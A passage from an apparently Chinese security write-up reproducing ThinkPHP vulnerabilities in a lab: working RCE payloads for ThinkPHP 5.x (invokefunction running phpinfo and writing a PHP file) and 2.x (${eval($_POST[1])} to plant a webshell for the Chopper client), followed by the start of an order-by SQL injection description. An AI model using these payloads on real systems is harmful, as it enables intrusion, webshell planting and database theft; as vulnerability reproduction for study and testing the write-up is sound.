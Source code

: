 [![](http://zone.secevery.com/uploads/article/20191220/9c57d647e53818df70f04dc7d339e8ff.png)](http://zone.secevery.com/uploads/article/20191220/9c57d647e53818df70f04dc7d339e8ff.png)

**代码执行查看 phpinfo**

```
?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1]=-1
```

[![](http://zone.secevery.com/uploads/article/20191220/de597a9131929fca7e8cd4c6cca44576.png)](http://zone.secevery.com/uploads/article/20191220/de597a9131929fca7e8cd4c6cca44576.png)

**写文件 payload**

```
?s=/index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell1.php&vars[1][]=<?php phpinfo();?>
```

[![](http://zone.secevery.com/uploads/article/20191220/a4180480316757a4e222fb666b755f9e.png)](http://zone.secevery.com/uploads/article/20191220/a4180480316757a4e222fb666b755f9e.png)

  **三，​ThinkPHP 2.2 任意代码执行**  
**影响版本**  
THINKPHP 2.x-2.2

**漏洞复现（内网环境）**  
访问 192.168.10.53，选择对应版本

  **Poc/exp:**

```
/module/action/param1/${phpinfo()}

/module/action/param1/${eval($_POST[1])}                           

?s=/abc/abc/abc/${THINK_VERSION}
```

[![](http://zone.secevery.com/uploads/article/20191220/87fe7fd2082ba68d27b7353f44e5aa87.png)](http://zone.secevery.com/uploads/article/20191220/87fe7fd2082ba68d27b7353f44e5aa87.png)

  **getshell 菜刀直接连接构造的连接**

[![](http://zone.secevery.com/uploads/article/20191220/813d568f9483ae9fbc84e83b17eeea81.png)](http://zone.secevery.com/uploads/article/20191220/813d568f9483ae9fbc84e83b17eeea81.png)

[![](http://zone.secevery.com/uploads/article/20191220/2cfe2ea95acd80d4783a66dfcf2b097c.png)](http://zone.secevery.com/uploads/article/20191220/2cfe2ea95acd80d4783a66dfcf2b097c.png)

**0x02ThinkPHP sql 注入漏洞**

  **一，ThinkPHP 3.2.3/5.1.22 order by 注入**  
**漏洞介绍：**  
该漏洞是因为未正确处理所接收数组类型参数的 key，直接拼接到了 SQL 语句的 order by 后面，导致漏洞的产生。该漏洞可以获取数据库数据，比如用户账号密码，管理后台账号密码，交易数据等。漏洞危害为高危。

  **影响版本**  
5.1.16<=ThinkPHP<=5.1.22，<=3.2.3
